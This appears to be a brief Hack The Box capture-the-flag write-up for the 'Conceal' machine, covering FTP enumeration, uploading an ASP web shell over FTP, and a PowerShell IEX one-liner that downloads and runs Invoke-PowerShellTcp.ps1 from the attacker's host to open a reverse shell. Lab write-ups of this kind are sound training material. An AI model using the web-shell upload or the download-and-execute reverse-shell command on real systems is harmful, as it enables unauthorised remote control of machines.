




# 20 - FTP


# Empty directory



# Gobuster on IIS



# Arbitrary File Upload

```
┌─[user@parrot]─[10.10.14.9]─[~/htb/conceal]
└──╼ $ cp   /opt/webshell/asp/webshell.asp

ftp> put webshell.asp
local: webshell.asp remote: webshell.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1412 bytes sent in 0.00 secs (49.8736 MB/s)
```


# webshell.asp




# Payload
```
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/Invoke-PowerShellTcp.ps1')
```

Don't forget to add `Invoke-PowerShellTcp -Reverse -IPAddress $IP -Port 4444`  to the bottom of the script.

# Shell
